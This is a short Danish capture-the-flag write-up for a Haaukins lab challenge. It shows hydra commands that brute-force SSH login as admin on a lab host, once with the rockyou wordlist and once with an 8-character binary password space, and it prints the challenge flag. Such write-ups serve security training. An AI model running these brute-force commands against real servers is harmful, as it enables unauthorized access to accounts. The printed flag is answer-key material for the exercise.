


# Yes Or No Writeup

## Challenge information

Forslået sværhedsgrad: Let

Haaukins API: Ja

Beskrivelse:
En klog tilgang til social engineering er altid væsentlig eller ej?

Måske giver brute force alt hvad vi har brug for.

Lad os se, om du kan logge ind med brugernavnet admin på SSH-serveren på domænet http://sshbrute.com

## Writeup

### We will. We will. Rockyou!
At køre et hydra brute force på sshbrute.com med rockyou.txt og brugernavnet admin giver flag, men tager lang tid:

```bash
hydra -f -t 15 -l admin -P /usr/share/wordlists/rockyou.txt -y ssh://sshbrute.com
```

### Lets be smart about this
Ved at ssh ind på serveren uden at logge ind kan vi se følgende besked:



Dette er et hint til at koden nok er i binary og er 8 lang.

Vi kan derved brute force op mod ssh serveren med en kode som kun består af 1'er eller 0'er og er 8 lang:

```
hydra -f -t 15 -l admin -x 8:8:10 -y ssh://sshbrute.com
``` 

Dette finder os passwordet:



Derefter kan vi logge ind og få flaget

```
DDC{b1nARy153V3ryWh3r3}
``` 